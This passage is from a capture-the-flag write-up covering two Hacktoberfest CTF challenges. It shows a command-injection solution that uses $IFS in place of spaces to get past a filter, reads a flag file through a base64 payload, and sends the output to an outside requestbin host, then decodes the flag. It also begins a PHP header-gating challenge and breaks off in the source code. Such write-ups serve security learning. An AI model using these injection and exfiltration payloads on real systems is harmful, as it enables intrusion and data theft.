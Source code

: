 And through http://requestbin.net/r/1bvgn5b1?inspect I could view the requests being made to the site.

Now that we have command execution with proper output. It was time to find the flag. Actually  using space in command was blocked. So I had to use $IFS instead for every command that contains space.




For example: `$(ls -la)` became `$(ls$IFS-la)`.



I looked around and found a file named `zhululu_2e3817293fc275dbee74bd71ce6eb056_FLAG_4e4d6c332b6fe62a63afe56171fd3725.txt` which contained the flag.



Then I read the file using  `$(base64$IFS-w$IFS\0$IFS/zh*)`


```sh
Sidenote
There is \ before 0 because $IFS0 would simply escape 0 it is behaviour of $IFS to escape suffix if there is no use of symbols like -, | etc.
```

On the request bin inspect tab I recieved

```Q29uZ3JhdHMhISBZb3UgbWFkZSB0aWxsIHRoZSBmbGFnIPCfjokKCgpHcmFiIGl0LCBpdCdzIGJlbG93OgpoYWNrdG9iZXJmZXN0X2N0ZntzaGVsbF9rZWtfcmljZV9mYmY4NjE5ZmY3ZjE1NjEzOWNkYWY0ZDdlM2UwNmQ3NX0K```

Decoding the base64 we get 


```
Congrats!! You made till the flag 🎉
Grab it, it's below:
hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}
```
```hacktoberfest_ctf{shell_kek_rice_fbf8619ff7f156139cdaf4d7e3e06d75}```






# WrestlePHP

 Challenge Description
>Can you beat PHP?

>Here's something that could help you out
>7068702e30646179676f642e78797a

Hex Decoding 7068702e30646179676f642e78797a gives php.0daygod.xyz
On visiting the site we are greeted with source code of the chall php.

```php
 <?php

    if($_SERVER['HTTP_USER_AGENT'] != "Yes, I am a human."){
        die("You are a bot, mate!");
    } else echo "Nice! Now that we know you are a human, you can proceed further.\n\n";

    $flag = array("hacktoberfest_ctf{");
    if(apache_request_headers()["Sagarmatha-Hacktoberfest-CTF"] == "https://hacktober.tk/"){
        array_push($flag, "you");
    }
    
    if(isset($_GET['hello']) && $_GET['hello'] === "hi"){
        array_push($flag, "can't");
    }
```